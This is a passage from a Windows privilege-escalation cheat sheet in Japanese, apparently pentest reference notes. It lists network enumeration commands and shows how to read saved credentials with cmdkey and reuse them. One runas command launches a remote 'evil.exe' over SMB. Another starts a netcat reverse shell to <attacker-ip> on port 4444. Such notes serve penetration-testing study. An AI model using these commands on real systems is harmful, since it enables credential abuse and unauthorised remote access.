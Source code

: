 #### Network

```cmd
#host file
type C:\Windows\System32\drivers\etc\hosts

#Interfaces & DNS
ipconfig /all
Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address
Get-DnsClientServerAddress -AddressFamily IPv4 | ft

#Open Ports
netstat -ano

#Routing Table
route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex

#Arp Table
arp -A
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,L
```

#### Credentials manager / Windows vault

マシンに保存されている資格情報を一覧表示するには、cmdkey を使用します。

```bash
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

 そして、/savecred オプションを指定して runas を使用することで、保存された資格情報を使用することができます。次の例は、SMB 共有を経由してリモートバイナリーを呼び出しています。

```bash
 runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

 提供されたクレデンシャルのセットでrunasを使用しています。

```cmd
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

#### サービスな不正な権限

不正なファイル権限で管理者/システムとして実行されているサービスは、EoPを許可する場合があります。バイナリを置き換え、サービスを再起動してシステムを取得できます。

権限が次のようなサービスがないか確認してください。

グループの（F）または（C）または（M）を持つBUILTIN \ Users。

https://msdn.microsoft.com/en-us/library/bb727008.aspx
